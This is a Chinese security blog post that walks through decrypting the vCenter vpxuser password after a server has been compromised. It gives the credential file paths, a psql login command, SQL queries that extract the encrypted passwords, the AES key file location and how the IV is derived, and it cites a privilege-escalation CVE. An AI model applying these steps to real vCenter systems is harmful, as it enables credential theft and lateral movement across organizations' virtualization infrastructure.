 #  【vCenter】vpxuser密码解密

原创 Chris  [ 溪琉安全录 ](javascript:void\(0\);)

**溪琉安全录** ![]()

微信号 gh_e1ff7c735f30

功能介绍 不定时更新网络安全相关的知识，同时也欢迎朋友们来投稿。

____

___发表于_

收录于合集

#凭据获取 3 个

#内网渗透 7 个

#实战攻防 9 个

#数据库 2 个

#vCenter 1 个

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201609.png)

****

**0x01 前言**

在内网渗透过程中，集权设备往往是Red
Team喜欢关注的地方，vCenter又有小域控的称号，当获取到vCenter之后权限不高，或者想要获取更多权限的时候，可以关注一下vpxuser账户，这很可能是安全基线检查中会被忽略到的一个点。本文记录了获取vCenter服务器权限之后，解密vpxuser账户明文密码的一个过程  

 **0x02 vpxuser  
**

  

vpxuser是ESXI和vCenter第一次连接时自动创建的高权限用户，vCenter使用OpenSSL密码库作为随机来源，每30天生成一个新的vpxuser密码，密码长度为32个字符，该用户是被vpxd进程创建的，用来管理ESXI和vCenter之间的通信  

  

vpxuser密文解密的过程如下：  

1.登录vCenter服务器的PostgresDB数据库

2.找到服务器的vpxuser加密的密码

3.对vpxuser密码逆向解密

4.利用CVE-2021-22015去提升到解密所需要的高权限（root权限忽略）

5.解密密码登录目标服务器  
 **0x03 获取密文**  

###  **PostgresDB的凭据**

首先需要找到含有数据库密码的凭据文件

  *   * 

    
    
    /etc/vmware-vpx/vcdb.propertiesC:\ProgramData\VMware\vCenterServer\cfg\vmware-vps\vcdb.properties

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201611.png)

使用数据库凭据登录数据库  

  * 

    
    
    /opt/vmware/vpostgres/current/bin/psql -d VCDB -U vc -w <Password>

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201612.png)

###  **vpxv_vms表相关信息**

该数据库存放了有关ESXi和vCenter的信息，其中vpxv_vms表是虚拟机的一些信息  
vpxv_vms字段如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    vmid namevmgroupidhostid                                configfilename                                         |        vmuniqueidresource_group_idmem_size_mbnum_vcpuboot_timesuspend_timepower_stateguest_osguest_familyguest_statememory_reservationmemory_overheadcpu_reservationdns_nameip_addressvmmware_tooltools_versionnum_nicnum_diskis_templateannotationsuspend_intervalaggr_commited_storage_spaceaggr_uncommited_storage_spaceaggr_unshared_storage_spacestorage_space_updated_time

查询vpx的虚拟机信息

  * 

    
    
    SELECT vmid,name,configfilename,guest_state,is_template FROM vpxv_vms;

 **![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201614.png)  
**寻找正在运行的虚拟机

  * 

    
    
     SELECT vmid,name,configfilename,guest_state,is_template FROM vpxv_vms where guest_state='running';

 **![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201615.png)  
**

 **获取vpxuser密文**  

从数据库获取vpxuser的密文

  * 

    
    
    SELECT user_name, password FROM vc.vpx_host;

 **![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201617.png)  
**

 **0x04 加密算法**  

这里用到的是AES_256_CBC加密算法，还需要获取密钥key和iv初始化向量密钥key是保存在/etc/vmware-
vpx/ssl/symkey.dat文件中的![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201618.png)  
  
iv是密文base64解密之后的前16位  
0746243b3b7d8f0c19bfd62d10bac3ea

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201620.png)

  

key和iv都确定之后 开始解密

需要解密的密文是base64之后去掉前16位之后的剩余部分

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201621.png)

成功解密  
  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201622.png)

  

使用python脚本解密如下

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201624.png)

  

公众号后台回复"vpxuser"获取工具链接  

 ****  
 ****

 **** **0x05 参考链接  
**

https://www.pentera.io/blog/information-disclosure-in-vmware-vcenter/  
https://www.pentera.io/blog/vscalation-cve-2021-22015-local-privilege-
escalation-in-vmware-vcenter-pentera-labs/  

https://mp.weixin.qq.com/s/Q91wk8BIUO5cAp6_7_pt1A  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230629201625.png)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

